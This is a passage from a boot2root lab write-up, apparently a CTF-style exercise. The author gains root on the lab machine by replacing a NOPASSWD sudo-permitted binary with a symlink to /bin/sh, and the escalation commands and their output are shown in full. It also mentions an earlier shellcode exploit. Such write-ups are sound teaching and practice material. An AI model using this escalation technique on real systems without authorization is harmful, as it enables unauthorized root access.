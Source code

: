 Success; another local user.  I'd like to briefly note that I had alot of issues getting shellcode to work if it was placed after the NOP sled, as opposed to before.

Now that we've got our second account, we can hunt around the system in search of more binaries to exploit.  As our prior search discovered, nothing is suid root.  Checking out /home/anansi gives us:

```
$ pwd && ls -lh
/home/anansi/bin
total 8.0K
-rwxr-xr-x 1 anansi anansi 7.1K Mar  4 10:58 anansi_util
$ ./anansi_util
Usage: ./anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

I couldn't find any segmentation faults with this, but I did note the following:

```
$ sudo -l
Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util
```

It would appear we can `sudo ./anansi_util` without the need for a password.  And we own the binary!

```
$ mv anansi_util anansi_util_bkp
$ ln -s /bin/sh ./anansi_util
$ ls -lh
total 8.0K
lrwxrwxrwx 1 anansi puck      7 Mar 31 15:27 anansi_util -> /bin/sh
-rwxr-xr-x 1 anansi anansi 7.1K Mar  4 10:58 anansi_util_bkp
$ sudo ./anansi_util
$ whoami
root
```

One of the more interesting boot2root's I've had the privilege of exploiting, and a trend I hope to see continue.
